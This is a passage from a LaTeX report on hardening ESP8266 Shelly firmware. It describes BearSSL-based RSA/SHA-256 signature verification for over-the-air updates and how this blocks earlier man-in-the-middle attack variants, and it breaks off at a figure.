    
\includegraphics[width=0.80\linewidth]{Images/Fase3/chiavi.png}
    \caption{Public key for OTA verification and TLS certificates for MQTTS, all embedded in the firmware source code as \texttt{PROGMEM} constants}
    \label{fig:chiavi}
\end{figure}

\noindent The public key is stored in the \texttt{public\_key\_pem[]} array using the \texttt{PROGMEM} attribute, which instructs the ESP8266 compiler to place the data in flash memory rather than SRAM, preserving the limited heap space available for runtime operations.

\subsubsection{Verification Handler}

The OTA update endpoint (\texttt{/update}) has been completely redesigned compared to the original Shelly firmware. Instead of blindly accepting any uploaded binary, the hardened firmware implements a \textbf{three-phase upload handler} (Figure~\ref{fig:verifica_firma}) that performs cryptographic verification using BearSSL:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.80\linewidth]{Images/Fase3/codiceVerificaFirmaUpdate.png}
    \caption{OTA signature verification handler: BearSSL-based RSA-2048/SHA-256 verification integrated into the ESP8266 \texttt{Update} library}
    \label{fig:verifica_firma}
\end{figure}

\noindent The verification logic operates across three upload phases:

\begin{enumerate}
    \item \textbf{\texttt{UPLOAD\_FILE\_START}}: When the upload begins, the handler initializes the BearSSL verification pipeline:
    \begin{itemize}
        \item A \texttt{BearSSL::PublicKey} object is created from the embedded PEM public key.
        \item A \texttt{BearSSL::HashSHA256} object is instantiated for computing the firmware hash.
        \item A \texttt{BearSSL::SigningVerifier} object links the public key to the hash engine.
        \item The \texttt{Update.installSignature()} method registers the hash and verifier with the ESP8266 \texttt{Update} library.
    \end{itemize}
    
    The relevant code is:
    
\begin{verbatim}
static BearSSL::PublicKey otaPubKey(public_key_pem);
static BearSSL::HashSHA256 otaHash;
static BearSSL::SigningVerifier otaSign(&otaPubKey);

Update.installSignature(&otaHash, &otaSign);
\end{verbatim}
    
    \item \textbf{\texttt{UPLOAD\_FILE\_WRITE}}: Each incoming data chunk is written to flash and simultaneously fed into the SHA-256 hash computation. The \texttt{Update} library internally handles the incremental hashing.
    
    \item \textbf{\texttt{UPLOAD\_FILE\_END}}: When the upload completes, the \texttt{Update.end(true)} call triggers the final verification. The library:
    \begin{enumerate}
        \item Reads the last 4 bytes of the uploaded data to determine the signature length.
        \item Extracts the RSA signature (256 bytes) from the end of the binary.
        \item Computes the final SHA-256 hash of the firmware data (excluding the signature and length trailer).
        \item Verifies the signature against the computed hash using the embedded public key.
    \end{enumerate}
    
    If verification succeeds, the update is applied and the device reboots. If it fails, the update is \textbf{rejected} and the existing firmware remains intact.
\end{enumerate}

\subsubsection{Mitigation Effectiveness}

This countermeasure directly invalidates both MITM attack variants demonstrated in Phase~2:

\begin{itemize}
    \item \textbf{Variant A (ARP Poisoning + DNS Spoofing)}: Even if an attacker successfully hijacks the DNS resolution and serves a malicious firmware bundle, the device will reject it because the binary is not signed with the legitimate private key.
    
    \item \textbf{Variant B (Direct \texttt{/ota} Endpoint Exploitation)}: The unauthenticated \texttt{/ota} endpoint from the original firmware has been replaced with a file-upload based OTA page (\texttt{/update}) that requires the uploaded binary to carry a valid RSA signature. Any unsigned binary will be rejected.
\end{itemize}


\subsubsection{Demonstration: Successful Signed Update}

Figures~\ref{fig:ota_settings}--\ref{fig:ota_success} demonstrate the complete workflow of a successful signed firmware update:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.90\linewidth]{Images/Fase3/OtaProtetto0.png}
    \caption{Settings page of the hardened firmware showing the ``Firmware Update (OTA)'' option}
    \label{fig:ota_settings}
\end{figure}

\begin{figure}[H]
    \centering
